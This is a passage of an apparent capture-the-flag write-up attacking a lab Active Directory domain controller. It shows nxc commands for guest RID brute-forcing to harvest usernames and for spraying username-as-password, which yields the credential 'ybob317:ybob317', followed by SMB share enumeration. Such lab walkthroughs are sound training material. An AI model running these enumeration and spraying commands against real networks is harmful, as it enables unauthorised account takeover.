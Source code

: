 ```console
$ nxc smb dc01.soupedecode.local -u 'guest' -p '' --rid-brute 3000 | grep SidTypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > valid_usernames.txt
```
{: .wrap }

## User Flag

### Password Spraying

With the list of valid usernames, we can attempt **ASREPRoasting**, but no accounts are vulnerable. Also, trying standard password spraying attempts with common passwords (e.g., the domain name, seasons, years) are also unsuccessful. However, another common weak password choice is for a user to set their password to their username. By attempting to authenticate each user with their own username as the password, we successfully identify valid credentials for the user `ybob317`.

```console
$ nxc smb dc01.soupedecode.local -u valid_usernames.txt -p valid_usernames.txt --no-bruteforce --continue-on-success
SMB         10.10.67.33     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.67.33     445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:Administrator STATUS_LOGON_FAILURE
SMB         10.10.67.33     445    DC01             [-] SOUPEDECODE.LOCAL\Guest:Guest STATUS_LOGON_FAILURE
SMB         10.10.67.33     445    DC01             [-] SOUPEDECODE.LOCAL\krbtgt:krbtgt STATUS_LOGON_FAILURE
SMB         10.10.67.33     445    DC01             [-] SOUPEDECODE.LOCAL\DC01$:DC01$ STATUS_LOGON_FAILURE
SMB         10.10.67.33     445    DC01             [-] SOUPEDECODE.LOCAL\bmark0:bmark0 STATUS_LOGON_FAILURE
...
SMB         10.10.67.33     445    DC01             [+] SOUPEDECODE.LOCAL\ybob317:ybob317
...
```

As the `ybob317` user, we have read access to the **Users** share, which we can connect to using `smbclient.py` and retrieve the user flag from `\\dc01.soupedecode.local\Users\ybob317\Desktop\user.txt`.

```console
$ nxc smb dc01.soupedecode.local -u 'ybob317' -p 'ybob317' --shares
SMB         10.10.67.33     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.67.33     445    DC01             [+] SOUPEDECODE.LOCAL\ybob317:ybob317
SMB         10.10.67.33     445    DC01             [*] Enumerated shares
SMB         10.10.67.33     445    DC01             Share           Permissions     Remark
SMB         10.10.67.33     445    DC01             -----           -----------     ------
SMB         10.10.67.33     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.67.33     445    DC01             backup
SMB         10.10.67.33     445    DC01             C$                              Default share
SMB         10.10.67.33     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.67.33     445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.67.33     445    DC01             SYSVOL          READ            Logon server share
SMB         10.10.67.33     445    DC01             Users           READ
```
